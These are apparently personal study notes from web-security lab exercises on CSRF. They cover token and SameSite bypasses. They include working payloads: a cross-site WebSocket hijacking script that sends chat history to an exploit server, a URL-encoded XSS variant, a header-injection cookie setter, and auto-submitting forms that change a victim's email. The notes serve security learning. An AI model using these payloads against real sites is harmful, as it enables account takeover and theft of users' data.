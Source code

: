 # CSRF

## Testing

1) Change Request method from POST to GET and GET to POST (add `&_method=POST` if not worked for GET)
2) Remove the CSRF key and try if it is working (black csrf)
3) Swap the CSFR token with another valid token by other user
4) Check if the CSRF token is tied to the CSRF cookie
	1) Submit an invalid CSRF token
	2) Submit a valid CSRF token from another user
	3) Submit valid CSRF token and cookie from another user
5) Try to inject HTTP Header (Set-Cookie header)
6) Chain Directory Traversal (Post to GET) to CSRF [[#SameSite Strict bypass via client-side redirect]]
7) Chain subdomain XSS (to bypass same-site:strict) to ping the burp collaborator and send websocket data to the collab url. [[#SameSite Strict bypass via sibling domain]]
8) SameSite cookie lax bypass - generate CSRF PoC from burpsuite --> change request method --> then we will get the cookie


### No defenses

Generate POC directly with Auto Submit

### Token validation depends on request method

Change the Request Type form POST to GET or GET to POST  
Generate PoC and Exploit with Auto Submit

### Token validation depends on token being present

Remove the CSFR token and generate the PoC.  
The Request will be Accept

### Token is not tied to user session

Swap the CSFR token with another valid token by other user.
The request will be Accept.

### Token is tied to non-session cookie

There will be a another CSFR Key (in cookies - defense mechanism) : non-Session Cookie.  
Swap both the CSFR token and CSFR key from a valid account.  
Search for Set Cookie functionality to set the CSFR key from the POC. (We need to set our attacker owned account CSRF Key when we send the link to victim).
Use img tag onerror functionality, and Auto Submit.

### Double Submit Cookie

In this case the application uses Double submit cookie.  
  
where the server does not stores any CSRF cookie.  
  
Instead it uses double submit cookie that is there will be a csrf token along with the session id, and another csrf token in the functionality (csrf parameter sent along with the other parameter).  
  
the server checks the both the CSRF tokens if they match the server accepts.  
  
to exploit this we need to find a vuln parameter that allows to inject HTTP header injection and uses Set-cookie method and add our own (any) CSRF token .  
  
then our csrf token will be set in the HTTP header  
  
and use this and generate CSRF POC with burpsuite.  
  
(the CSRF POC with burpsuite already includes a hidden input of CSRF token and we already set a cookie through parameter. So both are match and request is validated)  
  
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None


### SameSite Lax bypass via method override

The HTML forms doesn't not support methods like PUT, PATCH etc.  
  
The frameworks like Laravel gives an option to override this.  
  
There is a hidden field in the form i.e. `_method` where it informs the framework to use the specified method rather than the HTTP form method (GET or POST).  
  
This is Called "Method Spoofing"  
  
In this lab there is no Samesite Cookies set. But the Chrome will default it lax.  
  
To exploit generate CSRF POC with burpsuite. Now change the HTTP method to GET and add `_method=POST` at the end of parameter of GET URL.
  
add the new line to the form  

### SameSite Strict bypass via client-side redirect

The cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests.

TO achieve this we need to make a request from the application itself for any functionality.

In this for comment adding there is a confirmation redirect is happening where the ID is directly placing in the JS code. So with this we can do directory traversal.

change the method from POST to GET (change email) copy the parameter and paste it in the confirmation redirect after directory traversal. 

Now Generate CSRF payload

### SameSite Strict bypass via sibling domain

The Subdomain has an XSS Vulnerability. 
In the main domain has a live chat feature with Web Sockets.

The live chat web sockets page is protected with same site strict. So cross origin requests doesn't include session cookie. 

So we are using the XSS from sub domain to make a request to our attacker hosted website with the web sockets previous chat history.

we will send the sub domain page with XSS to the victim. the XSS script will fetch all the chat data and sends to our exploit server. Since the request is comming from the sub domain. we bypassed the same site strict.

Cross-Site Websocket Hijacking Attack:

```
<script>
    var ws = new WebSocket('wss://0aa8004b03ea6683810111d900540004.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };

    ws.onmessage = function(event) {
        fetch('https://exploit-0afe00f703036646819010e501280044.exploit-server.net/exploit?content=' + event.data)
    }
</script>
```

Cross-Site Websocket Hijacking Attack + XSS:

```
<script>
document.location = "https://cms-0aa8004b03ea6683810111d900540004.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%61%38%30%30%34%62%30%33%65%61%36%36%38%33%38%31%30%31%31%31%64%39%30%30%35%34%30%30%30%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%65%30%30%66%37%30%33%30%33%36%36%34%36%38%31%39%30%31%30%65%35%30%31%32%38%30%30%34%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%63%6f%6e%74%65%6e%74%3d%27%20%2b%20%65%76%65%6e%74%2e%64%61%74%61%29%0a%20%20%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e&password=fwefwefw";
</script>
```


### SameSite Lax bypass via cookie refresh


In this Lax is there. So we have 2 minutes in starting after session cookie was set.
We need to run our script in this two minute time frame.

But it is not possible. The application is using OAuth Social login. So we will craft our payload to send a request to the OAuth page that will initiate a new cookie, then now we have 2 times. we will execute our script after the OAuth completion. 

We will craft our payload to open the OAuth page via `window.open` (open redirect via XSS). But the pop ups are blocking. so we need to trigger onclick window to open the OAuth page and to execute the script.

```
<form method="POST" action="https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### CSRF where referrer validation depends on header being present

In this CSRF is preventing by the website based on the referrer header. If we remove the referer header it is working.

We can use the following line in the `<head>` section that indicates no referrer should be there.

```
<meta name="referrer" content="no-referrer">
```


### CSRF with broken Referer validation


The CSRF is blocking based on the referer header. But it is not validating entire referer header. Insecurely validating.

if we are adding `https://attcaker.com/?correct_URL` It is working.

We need to add the below script to achieve this.

```
<script>history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')</script>
```

![[Pasted image 20240527204740.png]]


![](Pasted%20image%2020240630213934.png)


---

csrf in file upload

referrer header may be used to validate. try Blank referrer header

```
<meta name="referrer" content="no-referrer" />
<iframe src=”data:text/html;base64,form_code_here”>
```

changing referrer with the target site 
